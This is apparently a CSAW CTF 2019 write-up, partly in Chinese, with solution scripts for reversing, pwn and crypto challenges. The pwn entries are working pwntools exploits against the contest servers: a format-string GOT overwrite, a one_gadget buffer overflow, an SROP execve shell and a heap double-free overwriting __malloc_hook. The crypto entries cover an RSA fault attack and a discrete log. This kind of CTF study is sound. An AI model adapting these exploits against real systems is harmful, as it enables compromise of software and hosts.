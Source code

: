 ```yaml
---
layout: post
title:  "CSAWCTF2019-Writeup"
date:   2019-9-16
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


# CSAWCTF2019-Writeup

* ### beleaf

  ```python
  fuck = [1,9,17,39,2,0,18,3,8,18,9,18,17,1,3,19,4,3,5,21,46,10,3,10,18,3,1,46,22,46,10,18,6]
  dic = {
      0: 'w', 1: 'f', 2:'{', 3:'_', 4:'n', 5:'y', 6:'}', 8:'b',
      9: 'l', 10:'r', 17: 'a', 18: 'e', 19: 'i', 
      21: 'o', 22: 't', 39: 'g', 
      46: 'u'
  }
  flag = ''
  
  for i in fuck:
  	flag += dic.get(i)
  print(flag)
  ```

* ### GOT Milk?

  ```
  from pwn import *
  r = remote('pwn.chal.csaw.io',1004)
  #r = process('./gotmilk')
  elf = ELF('./gotmilk')
  lose_got = elf.got['lose']
  #test = 'aaaa%7$x'
  #win_offset = 0x1189
  payload = p32(lose_got)+'%133c%7$hhn'
  r.sendline(payload)
  r.interactive()
  ```

* ### baby_boi

  ```python
  from pwn import *
  r = remote('pwn.chal.csaw.io',1005)
  libc = ELF('./libc-2.27.so')
  r.recvuntil('Here I am: 0x')
  printf = r.recvuntil('\n',drop = True)
  printf = int(printf,16)
  libc_base = printf - libc.symbols['printf']
  one = libc_base + 0x4f322 
  r.sendline('a'*40+p64(one))
  r.interactive()
  ```

* ### small_boi

  SROP

  ```python
  from pwn import *
  context.arch = 'amd64'
  r = remote('pwn.chal.csaw.io', 1002)
  binsh = 0x4001ca
  sigreturn = 0x400180
  syscall = 0x400185
  fuck = SigreturnFrame(kernel='amd64')
  fuck.rax = 59
  fuck.rdi = binsh
  fuck.rsi = 0
  fuck.rdx = 0
  fuck.rip = syscall
  payload = 'a'*0x28 + p64(sigreturn) + str(fuck)
  r.sendline(payload)
  r.interactive()
  ```

  

* ### Popping Caps

  只能操作7次，有double free

  操作7次后执行bye，里面有个malloc(0x38)，暗示改malloc_hook

  read从buf取指针，只能写刚malloc的chunk

  free时index没有检查，可以在堆上任意free

  先free一个大chunk，再free这个大chunk中的一个小chunk

  然后malloc，read写入malloc_hook，下一次malloc到malloc_hook，再写one_gadget

  ```python
  from pwn import *
  #r = remote('pwn.chal.csaw.io',1001)
  r = process('./popping_caps')
  elf = ELF('./popping_caps')
  libc = ELF('./libc.so.6')
  def malloc(size):
  	r.recvuntil('Your choice:')
  	r.sendline('1')
  	r.recvuntil('How many:')
  	r.sendline(str(size))
  
  def free(index):
  	r.recvuntil('Your choice:')
  	r.sendline('2')
  	r.recvuntil('Whats in a free:')
  	r.sendline(str(index))
  
  def write(txt):
  	r.recvuntil('Your choice:')
  	r.sendline('3')
  	r.recvuntil('Read me in:')
  	r.send(txt)
  
  r.recvuntil('Here is system 0x')
  system = int(r.recvuntil('\n',drop =True),16)
  libc_base = system - libc.symbols['system']
  log.info('libc_base:'+hex(libc_base))
  malloc_hook = libc_base+libc.symbols['__malloc_hook']
  log.info('malloc_hook:'+hex(malloc_hook))
  one = libc_base+0x10a38c
  log.info('one:'+hex(one))
  
  malloc(0x3a8)
  free(0)
  free(-0x210)
  malloc(0xf8)
  write(p64(malloc_hook))
  malloc(0x10)
  write(p64(one))
  r.interactive()
  ```

  

* ### SuperCurve

  ```python
  a = 1
  b = -1
  p = 14753
  E = EllipticCurve(Zmod(p), [a, b])
  G = E(1, 1)
  P = E(x, y)
  d = discrete_log(P, G, operation="+")
  print d
  ```

  

* ### Fault Box

  ```
  ====================================
              fault box
  ====================================
  1. print encrypted flag
  2. print encrypted fake flag
  3. print encrypted fake flag (TEST)
  4. encrypt
  ====================================
  ```

  e=65537，没有给出n

  选择4加密

  $c_2 ≡  2^e\ mod\ n$

  $c_4 ≡  4^e\ mod\ n$

  $c_8 ≡  8^e\ mod\ n$

  

  $c_2^2 ≡  c_4\ mod\ n$

  $c_2^3 ≡  c_8\ mod\ n$

  

  $c_2^2 - c_4=  kn$

  $c_2^3 - c_8=  tn$

  $n = gcd(c_2^3 - c_8,c_2^2 - c_4)$

  可以得到n

  ```python
      # ===== FUNCTIONS FOR PERSONAL TESTS, DON'T USE THEM =====
      def TEST_CRT_encrypt(self, p, fun=0):
          ep = inverse(self.d, self.p-1)
          eq = inverse(self.d, self.q-1)
          qinv = inverse(self.q, self.p)
          c1 = pow(p, ep, self.p)
          c2 = pow(p, eq, self.q) ^ fun
          h = (qinv * (c1 - c2)) % self.p
          c = c2 + h*self.q
          return c
  ```

  ep = eq = e

  正确使用CRT加密

  ![1](https://raw.githubusercontent.com/AiDaiP/images/master/CSAWCTF/1.png)

  题目中的TEST_CRT_encrypt中c2与fun异或

  ![2](https://raw.githubusercontent.com/AiDaiP/images/master/CSAWCTF/2.png)

  所以$p=gcd(c-m^e,n)$

  即$p=gcd(c_{fake}-c_{real},n)$

  然后解密flag

  